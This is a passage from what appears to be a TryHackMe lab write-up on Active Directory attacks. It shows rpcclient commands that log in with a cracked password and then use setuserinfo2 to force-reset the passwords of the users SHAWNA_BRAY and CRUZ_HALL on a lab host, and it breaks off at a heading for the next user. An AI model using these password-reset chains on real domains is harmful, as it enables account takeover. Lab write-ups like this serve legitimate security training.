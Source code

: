 With these rights we can force the SHAWNA\_BRAY's password.

```bash
rpcclient -U THM/TABATHA_BRITT 10.10.184.120
> marlboro(1985)

setuserinfo2 SHAWNA_BRAY 23 'Password123!'
```



### ForceChangePassword to CRUZ\_HALL user

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can change the CRUZ\_HALL's password

```bash
rpcclient -U THM/SHAWNA_BRAY 10.10.184.120
> Password123!

setuserinfo2 CRUZ_HALL 23 'Password123!'
```



### ForceChangePassword to DARLA\_WINTERS user

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
